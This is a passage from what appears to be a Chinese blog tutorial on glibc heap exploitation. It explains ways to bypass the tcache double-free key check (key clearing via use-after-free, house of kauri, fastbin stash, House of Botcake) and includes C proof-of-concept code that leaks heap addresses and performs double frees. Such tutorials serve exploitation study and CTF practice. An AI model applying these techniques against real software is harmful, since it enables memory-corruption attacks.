 ```c
    size_t* key=chunk1[1];
    size_t* heapbase_fd=getheap()+0x10;

    printf("heapbase memory part %p\n",heapbase_fd);
    printf("chunk key %p\n",key);
}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/da06a1e0f0674778851cb6e23bfd23d0.png)

### tcache key bypass
如果有相关key得double free检查，在进行 tcache double free 之前，还需要想办法绕过 tcache key 的保护。
常见的 tcache key bypass 手段如下

- 清除 tcache key：通过一些 UAF 手段将该 free chunk 中记录的 tcache key清除，从而绕过该检测。
- house of kauri：通过修改 size 使两次 free 的同一块内存进入不同的 entries 。
- tcache stash with fastbin double free：在 fastbin 中并没有严密的 double free 检测，我们可以在填满对应的 tcache 链条后在 fastbin 中完成 double free，随后通过 stash 机制将 fastbin 中 chunk 倒回 tcache 中。此时 fsat bin double free 就变成了 tcahce double free 。（即高版本double free 注意fastbin中1->2->1->2->1……，分配走1后，由于取走1后fastbin中会变成 2->1->2,进而进入tcache中是 2->1->2）
- House of Botcake
同一个 chunk 释放到 tcache 和 unsorted bin 中。释放在 unsorted bin 的 chunk 借助堆块合并改变大小。相对于上一个方法，这个方法的好处是一次 double free 可以多次使用，因为控制同一块内存的 chunk 所属不同（一个拿到unsortedbin的chunkB，另一个拿着tcachebin中的chunkB，可以通过拿到unsortedbin的chunkB修改进入到tcachebin中的chunkB，然后malloc出tcachebin中的chunkB，malloc出fd对应chunk，然后可以再free使得进入到tcachebin中的chunkB，然后unsortedbin的chunkB继续修改）。
  1. 申请7个大小相同，大小大于0x80的chunk，再申请三个，分别为chunk A和chunkB和chunk C（C防止合并），chunkAB大小和之前那7个一样
  2. 释放前7个和chunk A，前面7个都会进入到tcachebin里面，chunk A进入到unsortedbin
  3. 释放chunk B，则chunk B会和chunk A合并
  4. 从tcachebin分配走一个
  5. 再次释放chunk B，此时B同时存在与unsortedbin和tcachebin
  6. 然后malloc一次或者多次size大小不大于合并后的chunkAB大小，能够拿到一个能控制chunkB的chun0k

### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>
size_t getheap()
{
    puts("getheap");
    size_t libc_addr=puts-0x70970;
    size_t* mp_72=libc_addr+0x3b62c8;
    size_t heap=*mp_72;
    return heap;
}
int main()
{    
    printf("--------------------------------------------\n");
    //清除 tcache key：通过一些 UAF 手段将该 free chunk 中记录的 tcache key清除，从而绕过该检测。
    size_t* chunk1=malloc(0x10);
    free(chunk1);
    size_t* key=chunk1[1];
    printf("chunk key %p\n",key);
    chunk1[1]=0; 
    free(chunk1);
    printf("chunk1 fd %p\n",chunk1[0]);
    printf("chunk1  %p\n",chunk1);
    printf("--------------------------------------------\n");
    //house of kauri：通过修改 size 使两次 free 的同一块内存进入不同的 entries 。
    size_t* chunk2=malloc(0x20);
    free(chunk2);
    chunk2[-1]=0x40; 
    free(chunk2);
```